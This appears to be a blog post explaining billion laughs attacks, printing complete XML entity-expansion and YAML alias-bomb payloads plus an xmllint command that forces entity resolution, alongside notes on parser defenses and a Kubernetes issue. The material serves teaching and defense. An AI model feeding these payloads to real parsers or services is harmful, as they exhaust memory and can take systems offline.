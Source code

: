 ```yaml
---
layout: post
title: Billion Laughs Attack examples
date: 2020-12-03 08:37:49
---
```

![lololol](images/3ujp7rhznmid96gfxl5y.gif)

[Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) are a type of **DDoS attack** :skull:, initially targetting the **XML** documents and parsers.

## XML lol will make you cry
This is the most common example of **XML Billions Laughs Attack** :

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 <!ENTITY lolz "&lol9;">
]>
<root>&lolz;</root>
```

This attack is well known and several countermeasures are in place in parsers.

If you check one major **XML parsing library**, `libxml` (and by extension `xmllint`) is obviously not longer sensitive to this threat.

First there is check for reference loops so `xmllint` will return you an error:

```
Entity: line 1: parser error : Detected an entity reference loop
```

Second, the `resolving of entities` was years ago disabled by default.

But if you want to try, you can do something like (force dangerous mode explicitely with `--noent`):

```bash
xmllint lolz.xml --noent
```

(with a reduced set of entities to bypass the reference loop)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lolz "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
]>
<root>lollollollollollollollollollol</root>
```


## YAML laughs out loud
`XML` is not the only language impacted by this problem, 
every markup language with reference support is sensitive the same way to this potential DDoS attack.

There is a "billion laughs attack' in YAML :

```yaml
lol1: &lol1 ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
lol2: &lol2 [*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1]
lol3: &lol3 [*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2]
lol4: &lol4 [*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3]
lol5: &lol5 [*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4]
lol6: &lol6 [*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5]
lol7: &lol7 [*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6]
lol8: &lol8 [*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7]
lol9: &lol9 [*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8]
lolz: &lolz [*lol9]
```

And for the anecdote, **Kubernetes** was very recently [impacted by this](https://github.com/kubernetes/kubernetes/issues/83253) !

## Details
What is the problem with this exactly ? 

I mean, whatever the language you could produce malicious (or dumb) code that will consume all stack, memory, resources...

The problem here is that XML and YAML are formats intended to store datas but with **programming capabilities** (the references).

Everybody agree that if you let an user enter some python code to be executed as is on server side, it is dangerous. But when it comes to process XML or YAML, processing (parsing) seems "safe" where it is sometimes not.

The threat then comes that we seems to exchange inoffensive data where user can actually hide function calls (and system reads ! but we do not discussed XXE attacks :smile:).


